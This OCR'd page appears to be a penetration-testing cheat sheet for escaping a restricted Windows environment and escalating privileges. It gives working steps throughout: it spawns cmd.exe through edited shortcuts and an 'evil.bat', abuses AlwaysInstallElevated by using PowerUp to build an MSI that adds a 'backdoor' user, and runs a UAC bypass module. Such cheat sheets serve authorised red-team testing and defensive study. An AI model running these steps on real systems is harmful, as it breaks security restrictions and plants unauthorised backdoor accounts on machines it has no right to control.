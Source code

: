 #### Alternative File Managers
```cmd
# Use tools like:
# - Q-Dir
# - Explorer++
# Access via SMB share method above
```

#### Shortcut Modification
```cmd
# Step 1: Right-click existing shortcut
# Step 2: Properties
# Step 3: Modify Target field to:
C:\Windows\System32\cmd.exe
# Step 4: Execute shortcut
```

#### Script Execution (.bat files)
```cmd
# Step 1: Create evil.bat with content:
cmd

# Step 2: Execute .bat file
```

### Privilege Escalation in Restricted Environment

#### Always Install Elevated
```cmd
# Step 1: Check registry keys
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Step 2: Create MSI (PowerUp)
Import-Module .\PowerUp.ps1
Write-UserAddMSI

# Step 3: Execute MSI
UserAdd.msi

# Step 4: Use new user
runas /user:backdoor cmd
```

#### UAC Bypass in Restricted Environment
```powershell
# Import and execute UAC bypass
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

---
